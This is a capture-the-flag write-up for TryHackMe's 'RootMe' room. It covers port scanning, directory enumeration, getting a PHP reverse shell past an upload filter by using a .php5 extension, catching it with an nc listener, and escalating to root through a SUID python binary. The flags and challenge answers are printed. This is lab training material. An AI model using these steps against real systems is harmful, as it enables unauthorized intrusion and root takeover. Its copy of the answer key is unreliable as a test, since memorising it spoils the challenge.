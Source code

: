 # RootMe - TryHackMe Writeup

This is a writeup for the "RootMe" room on TryHackMe, which you can find [here](https://tryhackme.com/room/rrootme). 

---

## Steps

### 1. Initial Reconnaissance
- Scanned the target with `nmap`:
  ```bash
  nmap -sV -p- [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -sV -p- 10.10.245.12
  ```
- Flags explained:
  - `-sV`: Detect service versions.
  - `-p-`: Scan all 65,535 ports.
- Results:
  ```
  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
  80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
  ```
- Open ports: `2`
- Apache version: `2.4.29`
- Service on port 22: `ssh`

### 2. Web Enumeration
- Ran `gobuster` to find directories:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [PATH TO WORDLIST]
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.245.12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  ```
- Flags explained:
  - `dir`: Directory enumeration mode.
  - `-u`: Target URL.
  - `-w`: Wordlist path.
- Results:
  ```
  /uploads  (Status: 301)
  /css      (Status: 301)
  /js       (Status: 301)
  /panel    (Status: 301)
  ```
- Hidden directory: `/panel/`

### 3. Upload Reverse Shell
- Visited `http://[VICTIM IP]/panel/` and found a file upload form.
- Used [pentestmonkey’s PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell):
  - Edited `php-reverse-shell.php`:
    - Changed `$ip` to my attacker IP (e.g., `10.10.10.10`).
    - Changed `$port` to `4004`.
- Tried uploading as `.php`, but the server rejected it.
- Researched PHP extensions (`.php3`, `.php4`, `.php5`, `.php7`, `.phtml`, `.pht`) and tested them.
- Renamed to `shell.php5`—upload succeeded.
- Set up a listener:
  ```bash
  nc -lvnp 4004
  ```
- Flags explained:
  - `-l`: Listen mode.
  - `-v`: Verbose output.
  - `-n`: No DNS resolution.
  - `-p 4004`: Port to listen on.
- Navigated to `http://[VICTIM IP]/uploads/shell.php5`, clicked it, and got a shell:
  ```
  Connection received on 10.10.245.12 34712
  Linux rootme 4.15.0-112-generic #113-Ubuntu
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  ```

### 4. Find User Flag
- Searched for `user.txt`:
  ```bash
  $ find -name "user.txt" 2>/dev/null
  ```
- Output: `./var/www/user.txt`
- Navigated and read it:
  ```bash
  $ cd /var/www
  $ cat user.txt
  ```
- Content: `THM{y0u_g0t_a_sh3ll}`

### 5. Privilege Escalation
- Searched for SUID binaries:
  ```bash
  $ find / -user root -perm /4000 2>/dev/null
  ```
- Flags explained:
  - `/`: Search entire filesystem.
  - `-user root`: Owned by root.
  - `-perm /4000`: SUID bit set.
  - `2>/dev/null`: Suppress permission-denied errors.
- Partial output:
  ```
  /usr/lib/dbus-1.0/dbus-daemon-launch-helper
  /usr/bin/sudo
  /usr/bin/python
  /bin/mount
  ....
  ```
- Weird file: `/usr/bin/python` (not a typical SUID binary).
- Used [GTFOBins](https://gtfobins.github.io/gtfobins/python/#sudo) for escalation:
  ```bash
  $ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
  ```
- Flags explained (Python command):
  - `-c`: Execute the following Python code.
  - `import os`: Import OS module.
  - `os.execl(...)`: Execute `/bin/sh` with `-p` to preserve privileges.
- Verified root access:
  ```bash
  '# id'
  ```
- Output: `uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root)`

### 6. Find Root Flag
- Searched for `root.txt`:
  ```bash
  '# find -name "root.txt" 2>/dev/null'
  ```
- Output: `./root/root.txt`
- Navigated and read it:
  ```bash
  '# cd /root'
  '# cat root.txt'
  ```
- Content: `THM{pr1v1l3g3_3sc4l4t10n}`

---

## Answers to Challenge Questions
1. **How many ports are open?**: `2`
2. **What version of Apache is running?**: `2.4.29`
3. **What service is running on port 22?**: `ssh`
4. **What is the hidden directory?**: `/panel/`
5. **Content of user.txt**: `THM{y0u_g0t_a_sh3ll}`
6. **Weird SUID file**: `/usr/bin/python`
7. **Content of root.txt**: `THM{pr1v1l3g3_3sc4l4t10n}`

---

## Tools Used
- `nmap`: Port and service scanning.
- `gobuster`: Directory enumeration.
- `nc`: Reverse shell listener.
- [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell): Shell payload.
- [GTFOBins](https://gtfobins.github.io/): Privilege escalation guide.

---

## Lessons Learned
- Bypassing upload restrictions with alternate PHP extensions (e.g., `.php5`).
- Setting up reverse shells requires matching IP/port between payload and listener.
- SUID binaries like `/usr/bin/python` can be exploited for root access.

---

